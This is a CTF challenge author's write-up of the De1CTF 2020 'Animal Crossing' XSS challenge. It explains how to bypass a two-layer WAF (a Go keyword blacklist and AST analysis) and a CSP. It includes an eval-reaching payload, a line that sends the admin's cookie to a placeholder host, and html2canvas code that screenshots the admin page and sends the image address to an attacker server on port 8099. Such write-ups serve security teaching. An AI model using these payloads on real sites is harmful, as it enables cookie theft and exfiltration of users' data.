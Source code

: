 ```yaml
---
title: 2020 De1CTF Animal Crossing WriteUp (En)
tags:
  - XSS
  - WriteUp
date: 2020-05-06 13:34:59
toc: true
---
```


2020 De1CTF Animal Crossing WriteUp.
<!-- more -->

## Description
Free passport creator lets you show your island!


## Level 1: bypass the cloud WAF

Cloud WAF usually has several layers and several filtering methods. Here I also designed two layers of protection.

### Layer 1: Blacklist detection

```go
var blackList = []string{
	//global
	"document", "window", "top", "parent", "global", "this",
	//func
	"console", "alert", "log", "promise", "fetch", "eval", "import",
	//char
	"<", ">", "`", "\\*", "&", "#", "%", "\\\\",
	//key
	"if", "set", "get", "with", "yield", "async", "wait", "func", "for", "error", "string",
	//string
	"href", "location", "url", "cookie", "src",
}
```

The way to bypass the blacklist is to avoid the strings and characters of ban. Here, because of the iris framework problem of go, the `;` and the data after it will be deleted, and can be bypassed with `%0a`

### Layer 2: Static syntax analysis

```
1. Pass in data to fmt.Sprintf("'%s';", data), and then parse the syntax. If parse fails, the error will be returned directly.
2. And then we visit AST nodes:
   1. VariableExpression/AssignExpression, All declaration/assignment statements will ban
   2. CallExpression, all function call, and callee not Identifier, will ban, example:
      1. ban:  test.test()、a[x]()
      2. pass: test()
   3. BracketExpression, all member reference and member is not Identifier, will ban, example:
      1. ban:  a[1]、a['xx']
      2. pass: a[x]
```

This layer of WAF, in fact, only needs to find out the rule of ban and find the unprocessed syntax to bypass it. My expected solution here is to pass variables with `throw`, but there are many other syntax that can be used.

The payload:

```js
data=base64DATAXXXXXXX'%0atry{throw 'ev'%2b'al'}catch(e){try{throw frames[e]}catch(c){c(atob(data))}}%0a//
```

After bypassing the two layers of WAF protection, the local successful alert, we can use:

```js
location.href = "http://xxxx/?" + btoa(ducument.cookie) 
```

get the admin cookie, and the cookie is a part of the flag:

```
FLAG=De1CTF{I_l1k4_
```



## Level 2: read 400 pictures

In the other half of the flag, hint:

```
What is the admin doing?
```

Read the administrator's document, you will find that there are  400 PNG images, and the flag is hidden in these images. 

Here are several solutions preset during the design:

1. Bypass CSP to import html2canvas lib, get the screenshot and upload to server, get the image address and send it back, then download the image
2. Use the for loop to send all 400 pictures to /upload, get 400 picture addresses and send back
3. Read the pictures directly and send them back one by one, write scripts, or use for to circulate and batch transfer, but the return process needs code conversion, and after the transfer back, it also needs to be converted into pictures for splicing

All three solutions can get the flag, I will introduce the solution of bypassing CSP and import html2canvas lib. Other methods are similar, so I won't write them all (You can go to see the players' writeup),

### Bypass CSP to import html2canvas lib

The main function of this website is to create a animal crossing passport, The homepage has a `/upload` api for upload image, you can upload a file with `png` suffix, and use `fetch` get the png file source, then `eval` it. You can bypass CSP to import the html2canvas lib and execute it. 

The png file:

```js
	...
  ...
html2canvas.js code
	...
  ...

// screenshot->upload screenshot->send img address back
html2canvas(document.body).then(function(canvas) {
        const form = new FormData(),
        url = "/upload",
        blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"})
        file = new File([blob], "a.png")
        form.append("file", file)
        fetch(url, {
            method: "POST",
            body: form
        }).then(function(response) {
            return response.json()
        }).then(function(data) {
            location.href="//xxxxxxxxx:8099/?"+data.data.toString()
        })
  })
```

Here I also write the JS of screenshot operation into png. 

It upload the screenshot to the server and get the returned image address, then send it back to the attacker

### Read image and execute

After upload the image, get the png address, then you can read the image with the controllable JS part and execute it

```js
fetch(`/static/images/xxxxxxxxx.png`).then(res=>res.text()).then(txt=>eval(txt))
```

And you can use the method of bypassing the WAF to pack it



Finally, when submitted to the BOT, you can receive the address of the screenshot of the admin's interface, and download it to see the other half of the flag

```
cool_GamE}
```

Flag:

```
De1CTF{I_l1k4_cool_GamE}
```

